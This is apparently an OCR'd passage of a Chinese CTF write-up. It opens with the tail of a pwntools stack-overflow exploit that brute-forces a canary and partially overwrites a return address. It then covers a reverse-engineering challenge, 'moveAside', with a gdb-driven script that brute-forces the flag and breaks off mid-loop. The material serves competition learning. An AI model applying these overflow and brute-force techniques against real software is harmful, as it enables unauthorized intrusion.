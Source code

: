 ```python
        if b'have fu' in a:
            canary += struct.pack('B', i)
            print(canary)
            break

x = 8
cn.send(b'a' * 104 + canary + b'a' * x + b'\x31\x02')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x12')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x22')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x32')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x42')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x52')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x62')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x72')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x82')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x92')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xa2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xb2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xc2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xd2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xe2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xf2')
cn.recvuntil(b'welcome')
```

## RE
### day1 moveAside  

一年前做过的题，当时我写的的超级详细题解：  
https://github.com/GhostFrankWu/CS315-ComputerSecurity/blob/main/week5/wp.md   
第一天结束后发现GitHub统计访客50多   
![picture 3](/img/5e69c119178a3e4d15501981767aac8704ef9d49fb1300d41ab906b8f8b320c0.png)  

核心就是去混淆之后找到用作jmp的mov指令，还有就是要知道mov混淆似乎一定有逐字节比较的地方，断在这里爆破就行了  
```python
from pwn import *

#            flag{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx3861}
flag = list('flag{781dda4e-d910-*********************}')
stri = "0123456789abcdef-ghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"

sp = b"LEGEND: "
context.log_level = 'critical'



for i in range(19, 43):
    for j in range(len(stri)):
        p = process(["gdb", "fuck"])
        p.sendline(b"b *0x8052A92")
        p.sendline(b"r")
        tr = [x for x in flag]
        tr[i] = stri[j]
        p.sendline(''.join(tr).encode())
        _ = p.recvuntil(sp)
        print(f'No.{i + 1}, trying {stri[j]}, now flag is {"".join(flag)}')
        for c in range(i-1):
            p.sendline(b'c')
            _ = p.recvuntil(sp)
        p.sendline(b'c')
        r = p.recvall(0.3)
        if sp in r:
```